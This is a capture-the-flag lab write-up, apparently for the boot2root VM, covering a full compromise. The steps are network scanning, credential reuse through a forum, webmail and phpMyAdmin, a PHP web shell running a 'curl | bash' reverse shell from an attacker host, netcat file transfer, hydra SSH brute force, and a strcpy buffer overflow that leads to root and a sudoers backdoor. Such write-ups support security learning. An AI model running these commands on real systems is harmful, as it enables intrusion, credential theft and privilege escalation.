*INFO GATHERING*

As the network config changes depending on the virtualization system used, we start by getting our IP address and scanning the network

```ifconfig```
```nmap -T4 <Network>```




Thanks to the info obtained, we can test our connectivity to the system and know the target OS based on the TTL

```ping <TargetIP>```



As the TTL is 64, we can assume that the server is running on Linux. We can proceed with the port scan

```nmap -sV -sC -p- -T4 <TargetIP>```



The interesting open ports found are 21-ftp, 22-ssh, 80-http, 143-imap, 443-https, 993-ssl/imap. After examination, nothing seemed vulnerable in the ftp, http and ssh services.


Inspecting the https service, we discovered three different directories

```dirb https://<TargetIP>```



The directories /phpmyadmin and /webmail need authentication, we'll thus focus on /forum

In the /forum webpage, we found a list of users as well as some posts. One of those contains a log report, posted by lmezard. Reading carefully, we encountered a logging attempt from a user called "!q\]Ej?*5K5cy*AJ"

*EXPLOITATION*



We intuit that the username was in fact a password. As the next succesfull login was done by lmezard, we could login with these credentials.

Once logged in as lmezard, we got their email address by having a look at their profile page. We now have the user's email : laurie@borntosec.net



Using this email address and the previously obtained password, we successfully logged in the /webmail service. Checking the inbox, we encounter an exchange about access to the database, giving us the credentials for the user's database root.



We can now authenticate in the /phpmyadmin service, gaining access to the DB. As the compromised user is root, it is likely that we have file permissions on the system. Therefore, we can try to gain access to the server by injecting PHP code to an accessible file by making use of a reverse shell.



```https://10.0.2.5/forum/templates_c/rce.php?cmd=curl 10.0.2.15:9090/shell.sh | bash```


*POST EXPLOITATION*

After some basic local enumeration, we can get the following information:
- We are indeed in the target system, as the local IP is the same as the target IP
- The user running the web app is www-data
- The kernel version is Linux ? (Read writeup 2!)
- We have reading permissions over /home/LOOKATME/password

Reading the file reveals the system credentials for lmezard, although ssh connection is restricted for this user.

```cat /home/LOOKATME/password```
```ssh lmezard@<IP>```
```su lmezard```



**fun**

In lmezard's home directory, we can find a compressed file called "fun" and a README. We download and decompress the file for further analysis.

```nc -nlv <port> > fun``` in attacker
```nc <IP> <port> < fun``` in target system
```tar -xvf ./fun```

The README suggests that solving the challenge will allow us access to the user laurie via SSH.

Analyzing fun, we get pieces of information to reconstruct the password. 

```cat ft_fun/* | grep printf | grep -v haha```
```cat ft_fun/* | grep getme -A 3 | grep -v haha```
```cat ft_fun/* | grep return | grep -v haha```

We deduce that the password lenght is 12, ending with "wnage" and that we need to hash the resulting string before attempting to log in, using SHA256. The characters left to order are "Iepthar".

In order to automate the login attempts, we employed our own password generation script, and hydra, to brute force the attempts. The script generates every possible permutation of the left characters, joins it to the known piece of password, and hashes the result.

```python3 laurie.py | awk '{print $5}' > laurie_passwd.txt```
```hydra -l laurie -P ./laurie_passwd.txt <TargetIP> ssh -v```

Hydra returns one successful login, using the string "Iheartpwnage", hashed.

**bomb**

The files present in laurie's home directory are a binary executable file called "bomb" and a README, explaining us how to log in as the user thor.

The bomb is a program composed of six levels, each one waiting for the user's input and, in case of error, exploding. The README helps us giving us some hints and stating that, by joining the inputs used to defuse each phase, we can obtain thor's password.

In order to understand how to solve each level, we decompiled the file using the online service "LINK".

***Phases***

- Phase 1 : compares the input with the string "Public speaking is very easy." -> input : "Public speaking is very easy."

- Phase 2 : takes 6 numbers as input, input[i + 1] = input[i] * (input[i] + 1), with 1 as input[0] -> input : "1 2 6 24 120 720"

- Phase 3 : takes a combination of one number, one char and another number. 7 combinations work, but thanks to the hints, we can keep only 3 of them : "1 b 214 / 2 b 755 / 7 b 524" -> input : "1 b 214"

- Phase 4 : one number expected, > 0. Brute forcing it, we got "9"

- Phase 5 : receives a string, applies an algorithm on every character. The result should be equal to "giants". Testing every letter, we got -> input : "opekmq" (or opekma)

- Phase 6 : receives 6 numbers. Each one should be between 0 and 6, and 2 consecutive numbers can't be equal. Knowing that, we could brute force the password -> input : "4 2 6 3 1 5"

- Secret phase : can be accessed by adding "austinpowers" to the fourth input -> "9 austinpowers". Receives a number > 0 and <= 1001. By brute force (again) -> input : "1001" (Turned out to be useless)

The subject hints that we have to swap the second-to-last and third-to-last characters to form the right password.

- Final password for thor: Publicspeakingisveryeasy.126241207201b2149opekmq426135

**turtle**

The README file present in thor's home directory tells us to use the result of the challenge "turtle" as password for "zaz".
In "turtle" we find instructions in French seeming to describe a path. Drawing it on paper, we end up writting "SLASH".
We have to "digest" the password to use it. We therefore apply md5 (message digest) on "SLASH".

```echo -n "SLASH" | md5sum```

**buffer overflow**

The directory /home/zaz contains an interesting file, a SUID binary that belongs to root.

```./exploit_me Hello``` (command output)
```strings ./exploit_me```

The program prints the argument received. Exploring the readable content of the file reveals the use of the insecure function strcpy. Assuming a buffer being used, we can try to perform a buffer overflow in order to gain root access by executing a shellcode.

The file decompilation supports our idea. The program uses a buffer of 140 bytes.

1. Localize the buffer address to overwrite the Extended Instruction Pointer (EIP)
2. Fill the buffer with a NOP sled, allowing imprecisions. This will ensure the execution of the payload
3. Concatenate the shellcode, executing /bin/sh
4. Smash EIP with the buffer memory address obtained in step one. This directs the execution flow to the NOP sled

We coded a python script to generate the final payload.

```./exploit_me $(python payload.py)```
```echo 'zaz ALL=NOPASSWD: ALL' >> /etc/sudoers && sudo su```
```id```

